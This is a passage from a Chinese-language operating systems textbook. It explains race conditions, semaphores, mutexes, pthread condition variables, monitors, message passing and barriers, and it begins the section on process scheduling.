这种方法不仅浪费了CPU时间，而且还可能引起预想不到的结果。考虑一台计算机有两个进程，H优先级较高，L优先级较低。调度规则规定，只要H处于就绪态它就可以运行。在某一时刻，L处于临界区中，此时H变到就绪态，准备运行（例如，一条I/O操作结束）。现在H开始忙等待，但由于当H就绪时L不会被调度，也就无法离开临界区，所以H将永远忙等待下去。这种情况有时被称作优先级反转问题（priority inversion problem）。
现在来考察几条进程间通信原语，它们在无法进入临界区时将阻塞，而不是忙等待。最简单的是sleep和wakeup。sleep是一个将引起调用进程阻塞的系统调用，即被挂起，直到另外一个进程将其唤醒。wakeup调用有一个参数，即要被唤醒的进程。另一种方法是让sleep和wakeup各有一个参数，即有一个用于匹配sleep和wakeup的内存地址。
生产者-消费者问题
作为使用这些原语的一个例子，我们考虑生产者-消费者（producer-consumer）问题，也称作有界缓冲区（bounded-buffer）问题。两个进程共享一个公共的固定大小的缓冲区。其中一个是生产者，将信息放入缓冲区；另一个是消费者，从缓冲区中取出信息。（也可以把这个问题一般化为m个生产者和n个消费者问题，但是我们只讨论一个生产者和一个消费者的情况，这样可以简化解决方案。）
问题在于当缓冲区已满，而此时生产者还想向其中放入一个新的数据项的情况。其解决办法是让生产者睡眠，待消费者从缓冲区中取出一个或多个数据项时再唤醒它。同样地，当消费者试图从缓冲区中取数据而发现缓冲区为空时，消费者就睡眠，直到生产者向其中放入一些数据时再将其唤醒。
这个方法听起来很简单，但它包含与前边假脱机目录问题一样的竞争条件。为了跟踪缓冲区中的数据项数，我们需要一个变量count。如果缓冲区最多存放N个数据项，则生产者代码将首先检查count是否达到N，若是，则生产者睡眠；否则生产者向缓冲区中放入一个数据项并增量count的值。
消费者的代码与此类似：首先测试count是否为0，若是，则睡眠；否则从中取走一个数据项并递减count的值。每个进程同时也检测另一个进程是否应被唤醒，若是则唤醒之。生产者和消费者的代码如图2-27所示。
为了在C语言中表示sleep和wakeup这样的系统调用，我们将以库函数调用的形式来表示。尽管它们不是标准C库的一部分，但在实际上任何系统中都具有这些库函数。未列出的过程insert_item和remove_item用来记录将数据项放入缓冲区和从缓冲区取出数据等事项。
现在回到竞争条件的问题。这里有可能会出现竞争条件，其原因是对count的访问未加限制。有可能出现以下情况：缓冲区为空，消费者刚刚读取count的值发现它为0。此时调度程序决定暂停消费者并启动运行生产者。生产者向缓冲区中加入一个数据项，count加1。现在count的值变成了1。它推断认为由于count刚才为0，所以消费者此时一定在睡眠，于是生产者调用wakeup来唤醒消费者。
但是，消费者此时在逻辑上并未睡眠，所以wakeup信号丢失。当消费者下次运行时，它将测试先前读到的count值，发现它为0，于是睡眠。生产者迟早会填满整个缓冲区，然后睡眠。这样一来，两个进程都将永远睡眠下去。
问题的实质在于发给一个（尚）未睡眠进程的wakeup信号丢失了。如果它没有丢失，则一切都很正常。一种快速的弥补方法是修改规则，加上一个唤醒等待位。当一个wakeup信号发送给一个清醒的进程信号时，将该位置1。随后，当该进程要睡眠时，如果唤醒等待位为1，则将该位清除，而该进程仍然保持清醒。唤醒等待位实际上就是wakeup信号的一个小仓库。
尽管在这个简单例子中用唤醒等待位的方法解决了问题，但是我们很容易就可以构造出一些例子，其中有三个或更多的进程，这时一个唤醒等待位就不够使用了。于是我们可以再打一个补丁，加入第二个唤醒等待位，甚至是8个、32个等，但原则上讲，这并没有从根本上解决问题。
信号量是E.W.Dijkstra在1965年提出的一种方法，它使用一个整型变量来累计唤醒次数，供以后使用。在他的建议中引入了一个新的变量类型，称作信号量（semaphore）。一个信号量的取值可以为0（表示没有保存下来的唤醒操作）或者为正值（表示有一个或多个唤醒操作）。
Dijkstra建议设立两种操作：down和up（分别为一般化后的sleep和wakeup）。对一信号量执行down操作，则是检查其值是否大于0。若该值大于0，则将其值减1（即用掉一个保存的唤醒信号）并继续；若该值为0，则进程将睡眠，而且此时down操作并未结束。检查数值、修改变量值以及可能发生的睡眠操作均作为一个单一的、不可分割的原子操作完成。保证一旦一个信号量操作开始，则在该操作完成或阻塞之前，其他进程均不允许访问该信号量。这种原子性对于解决同步问题和避免竞争条件是绝对必要的。所谓原子操作，是指一组相关联的操作要么都不间断地执行，要么都不执行。原子操作在计算机科学的其他领域也是非常重要的。
up操作对信号量的值增1。如果一个或多个进程在该信号量上睡眠，无法完成一个先前的down操作，则由系统选择其中的一个（如随机挑选）并允许该进程完成它的down操作。于是，对一个有进程在其上睡眠的信号量执行一次up操作之后，该信号量的值仍旧是0，但在其上睡眠的进程却少了一个。信号量的值增1和唤醒一个进程同样也是不可分割的。不会有某个进程因执行up而阻塞，正如在前面的模型中不会有进程因执行wakeup而阻塞一样。
顺便提一下，在Dijkstra原来的论文中，他分别使用名称P和V而不是down和up，荷兰语中，Proberen的意思是尝试，Verhogen的含义是增加或升高。由于对于不讲荷兰语的读者来说采用什么记号并无大的干系，所以我们将使用down和up名称。它们在程序设计语言Algol 68中首次引入。
用信号量解决生产者-消费者问题
用信号量解决丢失的wakeup问题，如图2-28所示。为确保信号量能正确工作，最重要的是要采用一种不可分割的方式来实现它。通常是将up和down作为系统调用实现，而且操作系统只需在执行以下操作时暂时屏蔽全部中断：测试信号量、更新信号量以及在需要时使某个进程睡眠。由于这些动作只需要几条指令，所以屏蔽中断不会带来什么副作用。如果使用多个CPU，则每个信号量应由一个锁变量进行保护。通过TSL或XCHG指令来确保同一时刻只有一个CPU在对信号量进行操作。
读者必须搞清楚，使用TSL或XCHG指令来防止几个CPU同时访问一个信号量，这与生产者或消费者使用忙等待来等待对方腾出或填充缓冲区是完全不同的。信号量操作仅需几个毫秒，而生产者或消费者则可能需要任意长的时间。
该解决方案使用了三个信号量：一个称为full，用来记录充满的缓冲槽数目；一个称为empty，记录空的缓冲槽总数；一个称为mutex，用来确保生产者和消费者不会同时访问缓冲区。full的初值为0，empty的初值为缓冲区中槽的数目，mutex初值为1。供两个或多个进程使用的信号量，其初值为1，保证同时只有一个进程可以进入临界区，称作二元信号量（binary semaphore）。如果每个进程在进入临界区前都执行一个down操作，并在刚刚退出时执行一个up操作，就能够实现互斥。
在有了一些进程间通信原语之后，我们再观察一下图2-5中的中断顺序。在使用信号量的系统中，隐藏中断的最自然的方法是为每一个I/O设备设置一个信号量，其初值为0。在启动一个I/O设备之后，管理进程就立即对相关联的信号量执行一个down操作，于是进程立即被阻塞。当中断到来时，中断处理程序随后对相关信号量执行一个up操作，从而将相关的进程设置为就绪状态。在该模型中，图2-5中的第5步包括在设备的信号量上执行up操作，这样在第6步中，调度程序将能执行设备管理程序。当然，如果这时有几个进程就绪，则调度程序下次可以选择一个更为重要的进程来运行。在本章的后续内容中，我们将看到调度算法是如何进行的。
在图2-28的例子中，我们实际上是通过两种不同的方式来使用信号量，两者之间的区别是很重要的。信号量mutex用于互斥，它用于保证任一时刻只有一个进程读写缓冲区和相关的变量。互斥是避免混乱所必需的操作。在下一节中，我们将讨论互斥量及其实现方法。
信号量的另一种用途是用于实现同步（synchronization）。信号量full和empty用来保证某种事件的顺序发生或不发生。在本例中，它们保证当缓冲区满的时候生产者停止运行，以及当缓冲区空的时候消费者停止运行。这种用法与互斥是不同的。
如果不需要信号量的计数能力，有时可以使用信号量的一个简化版本，称为互斥量（mutex）。互斥量仅仅适用于管理共享资源或一小段代码。由于互斥量在实现时既容易又有效，这使得互斥量在实现用户空间线程包时非常有用。
互斥量是一个可以处于两态之一的变量：解锁和加锁。这样，只需要一个二进制位表示它，不过实际上，常常使用一个整型量，0表示解锁，而其他所有的值则表示加锁。互斥量使用两个过程。当一个线程（或进程）需要访问临界区时，它调用mutex_lock。如果该互斥量当前是解锁的（即临界区可用），此调用成功，调用线程可以自由进入该临界区。
另一方面，如果该互斥量已经加锁，调用线程被阻塞，直到在临界区中的线程完成并调用mutex_unlock。如果多个线程被阻塞在该互斥量上，将随机选择一个线程并允许它获得锁。
由于互斥量非常简单，所以如果有可用的TSL或XCHG指令，就可以很容易地在用户空间中实现它们。用于用户级线程包的mutex_lock和mutex_unlock代码如图2-29所示。XCHG解法本质上是相同的。
mutex_lock的代码与图2-25中enter_region的代码很相似，但有一个关键的区别。当enter_region进入临界区失败时，它始终重复测试锁（忙等待）。实际上，由于时钟超时的作用，会调度其他进程运行。这样迟早拥有锁的进程会进入运行并释放锁。
在（用户）线程中，情形有所不同，因为没有时钟停止运行时间过长的线程。结果是通过忙等待的方式来试图获得锁的线程将永远循环下去，决不会得到锁，因为这个运行的线程不会让其他线程运行从而释放锁。
以上就是enter_region和mutex_lock的差别所在。在后者取锁失败时，它调用thread_yield将CPU放弃给另一个线程。这样，就没有忙等待。在该线程下次运行时，它再一次对锁进行测试。
由于thread_yield只是在用户空间中对线程调度程序的一个调用，所以它的运行非常快捷。这样，mutex_lock和mutex_unlock都不需要任何内核调用。通过使用这些过程，用户线程完全可以实现在用户空间中的同步，这些过程仅仅需要少量的指令。
上面所叙述的互斥量系统是一套调用框架。对于软件来说，总是需要更多的特性，而同步原语也不例外。例如，有时线程包提供一个调用mutex_trylock，这个调用或者获得锁或者返回失败码，但并不阻塞线程。这就给了调用线程一个灵活性，用以决定下一步做什么，是使用替代办法还只是等待下去。
到目前为止，我们掩盖了一个问题，不过现在还是有必要把这个问题提出来。在用户级线程包中，多个线程访问同一个互斥量是没有问题的，因为所有的线程都在一个公共地址空间中操作。但是，对于大多数早期解决方案，诸如Peterson算法和信号量等，都有一个未说明的前提，即这些多个进程至少应该访问一些共享内存，也许仅仅是一个字。如果进程有不连续的地址空间，如我们始终提到的，那么在Peterson算法、信号量或公共缓冲区中，它们如何共享turn变量呢？
有两种方案。第一种，有些共享数据结构，如信号量，可以存放在内核中，并且只能通过系统调用来访问。这种处理方式化解了上述问题。第二种，多数现代操作系统（包括UNIX和Windows）提供一种方法，让进程与其他进程共享其部分地址空间。在这种方法中，缓冲区和其他数据结构可以共享。在最坏的情形下，如果没有可共享的途径，则可以使用共享文件。
如果两个或多个进程共享其全部或大部分地址空间，进程和线程之间的差别就变得模糊起来，但无论怎样，两者的差别还是有的。共享一个公共地址空间的两个进程仍旧有各自的打开文件、报警定时器以及其他一些单个进程的特性，而在单个进程中的线程，则共享进程全部的特性。另外，共享一个公共地址空间的多个进程决不会拥有用户级线程的效率，这一点是不容置疑的，因为内核还同其管理密切相关。
Pthread中的互斥
Pthread提供许多可以用来同步线程的函数。其基本机制是使用一个可以被锁定和解锁的互斥量来保护每个临界区。一个线程如果想要进入临界区，它首先尝试锁住相关的互斥量。如果互斥量没有加锁，那么这个线程可以立即进入，并且该互斥量被自动锁定以防止其他线程进入。如果互斥量已经被加锁，则调用线程被阻塞，直到该互斥量被解锁。如果多个线程在等待同一个互斥量，当它被解锁时，这些等待的线程中只有一个被允许运行并将互斥量重新锁定。这些互斥锁不是强制性的，而是由程序员来保证线程正确地使用它们。
与互斥量相关的主要函数调用如图2-30所示。就像所期待的那样，可以创建和撤销互斥量。实现它们的函数调用分别是pthread_mutex_init与pthread_mutex_destroy。也可以通过pthread_mutex_lock给互斥量加锁，如果该互斥量已被加锁时，则会阻塞调用者。还有一个调用可以用来尝试锁住一个互斥量，当互斥量已被加锁时会返回错误代码而不是阻塞调用者。这个调用就是pthread_mutex_trylock。如果需要的话，该调用允许一个线程有效地忙等待。最后，pthread_mutex_unlock用来给一个互斥量解锁，并在一个或多个线程等待它的情况下正确地释放一个线程。互斥量也可以有属性，但是这些属性只在某些特殊的场合下使用。
除互斥量之外，pthread提供了另一种同步机制：条件变量。互斥量在允许或阻塞对临界区的访问上是很有用的，条件变量则允许线程由于一些未达到的条件而阻塞。绝大部分情况下这两种方法是一起使用的。现在让我们进一步地研究线程、互斥量、条件变量之间的关联。
举一个简单的例子，再次考虑一下生产者-消费者问题：一个线程将产品放在一个缓冲区内，由另一个线程将它们取出。如果生产者发现缓冲区中没有空槽可以使用了，它不得不阻塞起来直到有一个空槽可以使用。生产者使用互斥量可以进行原子性检查，而不受其他线程干扰。但是当发现缓冲区已经满了以后，生产者需要一种方法来阻塞自己并在以后被唤醒。这便是条件变量做的事了。
与条件变量相关的pthread调用如图2-31所示。就像你可能期待的那样，这里有专门的调用用来创建和撤销条件变量。它们可以有属性，并且有不同的调用来管理它们（图中没有显示）。与条件变量相关的最重要的两个操作是pthread_cond_wait和pthread_cond_signal。前者阻塞调用线程直到另一其他线程向它发信号（使用后一个调用）。当然，阻塞与等待的原因不是等待与发信号协议的一部分。被阻塞的线程经常是在等待发信号的线程去做某些工作、释放某些资源或是进行其他的一些活动。只有完成后被阻塞的线程才可以继续运行。条件变量允许这种等待与阻塞原子性地进行。当有多个线程被阻塞并等待同一个信号时，可以使用pthread_cond_broadcast调用。
条件变量与互斥量经常一起使用。这种模式用于让一个线程锁住一个互斥量，然后当它不能获得它期待的结果时等待一个条件变量。最后另一个线程会向它发信号，使它可以继续执行。pthread_cond_wait原子性地调用并解锁它持有的互斥量。由于这个原因，互斥量是参数之一。
值得指出的是，条件变量（不像信号量）不会存在内存中。如果将一个信号量传递给一个没有线程在等待的条件变量，那么这个信号就会丢失。程序员必须小心使用避免丢失信号。
作为如何使用一个互斥量与条件变量的例子，图2-32展示了一个非常简单只有一个缓冲区的生产者-消费者问题。当生产者填满缓冲区时，它在生产下一个数据项之前必须等待，直到消费者清空了它。类似地，当消费者移走一个数据项时，它必须等待，直到生产者生产了另外一个数据项。尽管很简单，这个例子却说明了基本的机制。使一个线程睡眠的语句应该总是要检查这个条件，以保证线程在继续执行前满足条件，因为线程可能已经因为一个UNIX信号或其他原因而被唤醒。
有了信号量和互斥量之后，进程间通信看来就很容易了，实际是这样的吗？答案是否定的。请仔细考察图2-28中向缓冲区放入数据项以及从中删除数据项之前的down操作。假设将生产者代码中的两个down操作交换一下次序，将使得mutex的值在empty之前而不是在其之后被减1。如果缓冲区完全满了，生产者将阻塞，mutex值为0。这样一来，当消费者下次试图访问缓冲区时，它将对mutex执行一个down操作，由于mutex值为0，则消费者也将阻塞。两个进程都将永远地阻塞下去，无法再进行有效的工作，这种不幸的状况称作死锁（dead lock）。我们将在第6章中详细讨论死锁问题。
指出这个问题是为了说明使用信号量时要非常小心。一处很小的错误将导致很大的麻烦。这就像用汇编语言编程一样，甚至更糟，因为这里出现的错误都是竞争条件、死锁以及其他一些不可预测和不可再现的行为。
为了更易于编写正确的程序，Brinch Hansen（1973）和Hoare（1974）提出了一种高级同步原语，称为管程（monitor）。在下面的介绍中我们会发现，他们两人提出的方案略有不同。一个管程是一个由过程、变量及数据结构等组成的一个集合，它们组成一个特殊的模块或软件包。进程可在任何需要的时候调用管程中的过程，但它们不能在管程之外声明的过程中直接访问管程内的数据结构。图2-33展示了用一种抽象的、类Pascal语言描述的管程。这里不能使用C语言，因为管程是语言概念而C语言并不支持它。
管程有一个很重要的特性，即任一时刻管程中只能有一个活跃进程，这一特性使管程能有效地完成互斥。管程是编程语言的组成部分，编译器知道它们的特殊性，因此可以采用与其他过程调用不同的方法来处理对管程的调用。典型的处理方法是，当一个进程调用管程过程时，该过程中的前几条指令将检查在管程中是否有其他的活跃进程。如果有，调用进程将被挂起，直到另一个进程离开管程将其唤醒。如果没有活跃进程在使用管程，则该调用进程可以进入。
进入管程时的互斥由编译器负责，但通常的做法是用一个互斥量或二元信号量。因为是由编译器而非程序员来安排互斥，所以出错的可能性要小得多。在任一时刻，写管程的人无须关心编译器是如何实现互斥的。他只需知道将所有的临界区转换成管程过程即可，决不会有两个进程同时执行临界区中的代码。
尽管如我们上边所看到的，管程提供了一种实现互斥的简便途径，但这还不够。我们还需要一种办法使得进程在无法继续运行时被阻塞。在生产者-消费者问题中，很容易将针对缓冲区满和缓冲区空的测试放到管程过程中，但是生产者在发现缓冲区满的时候如何阻塞呢？
解决的方法是引入条件变量（condition variables）以及相关的两个操作：wait和signal。当一个管程过程发现它无法继续运行时（例如，生产者发现缓冲区满），它会在某个条件变量上（如full）执行wait操作。该操作导致调用进程自身阻塞，并且还将另一个以前等在管程之外的进程调入管程。在前面介绍pthread时我们已经看到条件变量及其操作了。
另一个进程，比如消费者，可以唤醒正在睡眠的伙伴进程，这可以通过对其伙伴正在等待的一个条件变量执行signal完成。为了避免管程中同时有两个活跃进程，我们需要一条规则来通知在signal之后该怎么办。Hoare建议让新唤醒的进程运行，而挂起另一个进程。Brinch Hansen则建议执行signal的进程必须立即退出管程，即signal语句只可能作为一个管程过程的最后一条语句。我们将采纳Brinch Hansen的建议，因为它在概念上更简单，并且更容易实现。如果在一个条件变量上有若干进程正在等待，则在对该条件变量执行signal操作后，系统调度程序只能在其中选择一个使其恢复运行。
顺便提一下，还有一个Hoare和Brinch Hansen都没有提及的第三种方法，该方法让发信号者继续运行，并且只有在发信号者退出管程之后，才允许等待的进程开始运行。
条件变量不是计数器，条件变量也不能像信号量那样积累信号以便以后使用。所以，如果向一个条件变量发送信号，但是在该条件变量上并没有等待进程，则该信号会永远丢失。换句话说，wait操作必须在signal之前。这条规则使得实现简单了许多。实际上这不是一个问题，因为在需要时，用变量很容易跟踪每个进程的状态。一个原本要执行signal的进程，只要检查这些变量便可以知道该操作是否有必要。
在图2-34中给出了用类Pascal语言，通过管程实现的生产者-消费者问题的解法框架。使用类Pascal语言的优点在于清晰、简单，并且严格符合Hoare/Brinch Hansen模型。
读者可能会觉得wait和signal操作看起来像前面提到的sleep和wakeup，而我们已经看到后者存在严重的竞争条件。是的，它们确实很像，但是有个很关键的区别：sleep和wakeup之所以失败是因为当一个进程想睡眠时另一个进程试图去唤醒它。使用管程则不会发生这种情况。对管程过程的自动互斥保证了这一点：如果管程过程中的生产者发现缓冲区满，它将能够完成wait操作而不用担心调度程序可能会在wait完成之前切换到消费者。甚至，在wait执行完成而且把生产者标志为不可运行之前，根本不会允许消费者进入管程。
尽管类Pascal是一种想象的语言，但还是有一些真正的编程语言支持管程，不过它们不一定是Hoare和Brinch Hansen所设计的模型。其中一种语言是Java。Java是一种面向对象的语言，它支持用户级线程，还允许将方法（过程）划分为类。只要将关键词synchronized加入到方法声明中，Java保证一旦某个线程执行该方法，就不允许其他线程执行该对象中的任何synchronized方法。
使用Java管程解决生产者-消费者问题的解法如图2-35所示。该解法中有4个类。外部类（outer class）ProducerConsumer创建并启动两个线程，p和c。第二个类和第三个类producer和consumer分别包含生产者和消费者的代码。最后，类our_monitor是管程，它有两个同步线程，用于在共享缓冲区中插入和取出数据项。与前面的例子不同，我们在这里给出了insert和remove的全部代码。
在前面所有的例子中，生产者和消费者线程在功能上与它们的等同部分是相同的。生产者有一个无限循环，该无限循环产生数据并将数据放入公共缓冲区中；消费者也有一个等价的无限循环，该无限循环从公共缓冲区取出数据并完成一些有趣的工作。
该程序中比较意思的部分是类our_monitor，它包含缓冲区、管理变量以及两个同步方法。当生产者在insert内活动时，它确信消费者不能在remove中活动，从而保证更新变量和缓冲区的安全，且不用担心竞争条件。变量count记录在缓冲区中数据项的数量。它的取值可以取从0到N-1之间任何值。变量lo是缓冲区槽的序号，指出将要取出的下一个数据项。类似地，hi是缓冲区中下一个将要放入的数据项序号。允许lo=hi，其含义是在缓冲区中有0个或N个数据项。count的值说明了究竟是哪一种情形。
Java中的同步方法与其他经典管程有本质差别：Java没有内嵌的条件变量。反之，Java提供了两个过程wait和notify，分别与sleep和wakeup等价，不过，当它们在同步方法中使用时，它们不受竞争条件约束。理论上，方法wait可以被中断，它本身就是与中断有关的代码。Java需要显式表示异常处理。在本文的要求中，只要认为go_to_sleep就是去睡眠即可。
通过临界区互斥的自动化，管程比信号量更容易保证并行编程的正确性。但管程也有缺点。我们之所以使用类Pascal和Java，而不像在本书中其他例子那样使用C语言，并不是没有原因的。正如我们前面提到过的，管程是一个编程语言概念，编译器必须要识别管程并用某种方式对其互斥做出安排。C、Pascal以及多数其他语言都没有管程，所以指望这些编译器遵守互斥规则是不合理的。实际中，如何能让编译器知道哪些过程属于管程，哪些不属于管程呢？
在上述语言中同样也没有信号量，但增加信号量是很容易的：读者需要做的就是向库里加入两段短小的汇编程序代码，以执行up和down系统调用。编译器甚至用不着知道它们的存在。当然，操作系统必须知道信号量的存在，或至少有一个基于信号量的操作系统，读者仍旧可以使用C或C++（甚至是汇编语言，如果读者乐意的话）来编写用户程序，但是如果使用管程，读者就需要一种带有管程的语言。
与管程和信号量有关的另一个问题是，这些机制都是设计用来解决访问公共内存的一个或多个CPU上的互斥问题的。通过将信号量放在共享内存中并用TSL或XCHG指令来保护它们，可以避免竞争。如果一个分布式系统具有多个CPU，并且每个CPU拥有自己的私有内存，它们通过一个局域网相连，那么这些原语将失效。这里的结论是：信号量太低级了，而管程在少数几种编程语言之外又无法使用，并且，这些原语均未提供机器间的信息交换方法。所以还需要其他的方法。
上面提到的其他的方法就是消息传递（message passing）。这种进程间通信的方法使用两条原语send和receive，它们像信号量而不像管程，是系统调用而不是语言成分。因此，可以很容易地将它们加入到库例程中去。例如：
send(destination,＆message);
和
receive(source,＆message);
前一个调用向一个给定的目标发送一条消息，后一个调用从一个给定的源（或者是任意源，如果接收者不介意的话）接收一条消息。如果没有消息可用，则接收者可能被阻塞，直到一条消息到达，或者，带着一个错误码立即返回。
1.消息传递系统的设计要点
消息传递系统面临着许多信号量和管程所未涉及的问题和设计难点，特别是位于网络中不同机器上的通信进程的情况。例如，消息有可能被网络丢失。为了防止消息丢失，发送方和接收方可以达成如下一致：一旦接收到信息，接收方马上回送一条特殊的确认（acknowledgement）消息。如果发送方在一段时间间隔内未收到确认，则重发消息。
现在考虑消息本身被正确接收，而返回给发送者的确认信息丢失的情况。发送者将重发信息，这样接收者将接收到两次相同的消息。对于接收者来说，如何区分新的消息和一条重发的老消息是非常重要的。通常采用在每条原始消息中嵌入一个连续的序号来解决此问题。如果接收者收到一条消息，它具有与前面某一条消息一样的序号，就知道这条消息是重复的，可以忽略。不可靠消息传递中的成功通信问题是计算机网络的主要研究内容。更多的信息可以参考相关文献（Tanenbaum，1996）。
消息系统还需要解决进程命名的问题，在send和receive调用中所指定的进程必须是没有二义性的。身份认证（authentication）也是一个问题。比如，客户机怎么知道它是在与一个真正的文件服务器通信，而不是与一个冒充者通信？
对于发送者和接收者在同一台机器上的情况，也存在若干设计问题。其中一个设计问题就是性能问题。将消息从一个进程复制到另一个进程通常比信号量操作和进入管程要慢。为了使消息传递变得高效，人们已经做了许多工作。例如，Cheriton（1984）建议限制信息的大小，使其能装入机器的寄存器中，然后便可以使用寄存器进行消息传递。
2.用消息传递解决生产者-消费者问题
现在我们来考察如何用消息传递而不是共享内存来解决生产者-消费者问题。在图2-36中，我们给出了一种解法。假设所有的消息都有同样的大小，并且在尚未接收到发出的消息时，由操作系统自动进行缓冲。在该解决方案中共使用N条消息，这就类似于一块共享内存缓冲区中的N个槽。消费者首先将N条空消息发送给生产者。当生产者向消费者传递一个数据项时，它取走一条空消息并送回一条填充了内容的消息。通过这种方式，系统中总的消息数保持不变，所以消息都可以存放在事先确定数量的内存中。
如果生产者的速度比消费者快，则所有的消息最终都将被填满，等待消费者，生产者将被阻塞，等待返回一条空消息。如果消费者速度快，则情况正好相反：所有的消息均为空，等待生产者来填充它们，消费者被阻塞，以等待一条填充过的消息。
消息传递方式可以有许多变体。我们首先介绍如何对消息进行编址。一种方法是为每个进程分配一个惟一的地址，让消息按进程的地址编址。另一种方法是引入一种新的数据结构，称作信箱（mailbox）。信箱是一个用来对一定数量的消息进行缓冲的地方，信箱中消息数量的设置方法也有多种，典型的方法是在信箱创建时确定消息的数量。当使用信箱时，在send和receive调用中的地址参数就是信箱的地址，而不是进程的地址。当一个进程试图向一个满的信箱发消息时，它将被挂起，直到信箱内有消息被取走，从而为新消息腾出空间。
对于生产者-消费者问题，生产者和消费者均应创建足够容纳N条消息的信箱。生产者向消费者信箱发送包含实际数据的消息，消费者则向生产者信箱发送空的消息。当使用信箱时，缓冲机制的作用是很清楚的：目标信箱容纳那些已被发送但尚未被目标进程接收的消息。
使用信箱的另一种极端方法是彻底取消缓冲。采用这种方法时，如果send在receive之前执行，则发送进程被阻塞，直到receive发生。在执行receive时，消息可以直接从发送者复制到接收者，不用任何中间缓冲。类似地，如果先执行receive，则接收者会被阻塞，直到send发生。这种方案常被称为会合（rendezvous）。与带有缓冲的消息方案相比，该方案实现起来更容易一些，但却降低了灵活性，因为发送者和接收者一定要以步步紧接的方式运行。
通常在并行程序设计系统中使用消息传递。例如，一个著名的消息传递系统是消息传递接口（Message-Passing Interface，MPI），它广泛应用在科学计算中。有关该系统的更多信息，可参考相关文献（Gropp等人，1994；Snir等人，1996）。
最后一个同步机制是准备用于进程组而不是用于双进程的生产者-消费者类情形的。在有些应用中划分了若干阶段，并且规定，除非所有的进程都就绪准备着手下一个阶段，否则任何进程都不能进入下一个阶段。可以通过在每个阶段的结尾安置屏障（barrier）来实现这种行为。当一个进程到达屏障时，它就被屏障阻拦，直到所有进程都到达该屏障为止。屏障的操作如图2-37所示。
在图2-37a中可以看到有四个进程接近屏障，这意味着它们正在运算，但是还没有到达每个阶段的结尾。过了一会儿，第一个进程完成了所有需要在第一阶段进行的计算。它接着执行barrier原语，这通常是调用一个库过程。于是该进程被挂起。一会儿，第二个和第三个进程也完成了第一阶段的计算，也接着执行barrier原语。这种情形如图2-37b所示。结果，当最后一个进程C到达屏障时，所有的进程就一起被释放，如图2-37c所示。
作为一个需要屏障的例子，考虑在物理或工程中的一个典型弛豫问题。这是一个带有初值的矩阵。这些值可能代表一块金属板上各个点的温度值。基本想法可以是准备计算如下的问题：要花费多长时间，在一个角上的火焰才能传播到整个板上。
计算从当前值开始，先对矩阵进行一个变换，从而得到第二个矩阵，例如，运用热力学定律考察在∆T之后的整个温度分布。然后，进程不断重复，随着金属板的加热，给出样本点温度随时间变化的函数。该算法从而随时间变化生成出一系列矩阵。
现在，我们设想这个矩阵非常之大（比如100万行乘以100万列），所以需要并行处理（可能在一台多处理器上）以便加速运算。各个进程工作在这个矩阵的不同部分，并且从老的矩阵按照物理定律计算新的矩阵元素。但是，除非第n次迭代已经完成，也就是说，除非所有的进程都完成了当前的工作，否则没有进程可以开始第n+1次迭代。实现这一目标的方法是通过编程使每一个进程在完成当前迭代部分后执行一个barrier操作。只有当全部进程完成工作之后，新的矩阵（下一次迭代的输入）才会完成，此时所有的进程会被释放而开始新的迭代过程。
当计算机系统是多道程序设计系统时，通常就会有多个进程或线程同时竞争CPU。只要有两个或更多的进程处于就绪状态，这种情形就会发生。如果只有一个CPU可用，那么就必须选择下一个要运行的进程。在操作系统中，完成选择工作的这一部分称为调度程序（scheduler），该程序使用的算法称为调度算法（scheduling algorithm）。
尽管有一些不同，但许多适用于进程调度的处理方法也同样适用于线程调度。当内核管理线程的时候，调度经常是按线程级别的，与线程所属的进程基本或根本没有关联。下面我们将首先关注适用于进程与线程两者的调度问题，然后会明确地介绍线程调度以及它所产生的独特问题。第8章将讨论多核芯片的问题。
让我们回到早期以磁带上的卡片作为输入的批处理系统时代，那时的调度算法很简单：依次运行磁带上的每一个作业。对于多道程序设计系统，调度算法要复杂一些，因为经常有多个用户等候服务。有些大型机系统仍旧将批处理和分时服务结合使用，需要调度程序决定下一个运行的是一个批处理作业还是终端上的一个交互用户。（顺便提及，一个批处理作业可能需要连续运行多个程序，不过在本节中，我们假设它只是一个运行单个程序的请求。）由于在这些机器中，CPU是稀缺资源，所以好的调度程序可以在提高性能和用户的满意度方面取得很大的成果。因此，大量的研究工作都花费在创造聪明而有效的调度算法上了。
在拥有了个人计算机的优势之后，整个情形向两个方面发展。首先，在多数时间内只有一个活动进程。一个用户进入文字处理软件编辑一个文件时，一般不会同时在后台编译一个程序。在用户向文字处理软件键入一条命令时，调度程序不用做多少工作来判定哪个进程要运行——惟一的候选者是文字处理软件。
其次，同CPU是稀缺资源时的年代相比，现在计算机速度极快。个人计算机的多数程序受到的是用户当前输入速率（键入或敲击鼠标）的限制，而不是CPU处理速率的限制。即便对于编译（这是过去CPU周期的主要消耗者）现在大多数情况下也只要花费仅仅几秒钟。甚至两个实际同时运行的程序，诸如一个文字处理软件和一个电子表单，由于用户在等待两者完成工作，因此很难说需要哪一个先完成。这样的结果是，调度程序在简单的PC机上并不重要。当然，总有应用程序会实际消耗掉CPU，例如，为绘制一小时高精度视频而调整108 000帧（NTSC制）或90 000帧（PAL制）中的每一帧颜色就需要大量工业强度的计算能力。然而，类似的应用程序不在我们的考虑范围。
当我们转向网络服务器时，情况略微有些改变。这里，多个进程经常竞争CPU，因此调度功能再一次变得至关重要。例如，当CPU必须在运行一个收集每日统计数据的进程和服务用户需求的进程之间进行选择的时候，如果后者首先占用了CPU，用户将会更高兴。
另外，为了选取正确的进程运行，调度程序还要考虑CPU的利用率，因为进程切换的代价是比较高的。首先用户态必须切换到内核态；然后要保存当前进程的状态，包括在进程表中存储寄存器值以便以后重新装载。在许多系统中，内存映像（例如，页表内的内存访问位）也必须保存；接着，通过运行调度算法选定一个新进程；之后，应该将新进程的内存映像重新装入MMU；最后新进程开始运行。除此之外，进程切换还要使整个内存高速缓存失效，强迫缓存从内存中动态重新装入两次（进入内核一次，离开内核一次）。总之，如果每秒钟切换进程的次数太多，会耗费大量CPU时间，所以有必要提醒注意。
1.进程行为
几乎所有进程的（磁盘）I/O请求或计算都是交替突发的，如图2-38所示。典型地，CPU不停顿地运行一段时间，然后发出一个系统调用以便读写文件。在完成系统调用之后，CPU又开始计算，直到它需要读更多的数据或写更多的数据为止。请注意，某些I/O活动可以看作是计算。例如，当CPU向视频RAM复制数据以更新屏幕时，因为使用了CPU，所以这是计算，而不是I/O活动。按照这种观点，当一个进程等待外部设备完成工作而被阻塞时，才是I/O活动。
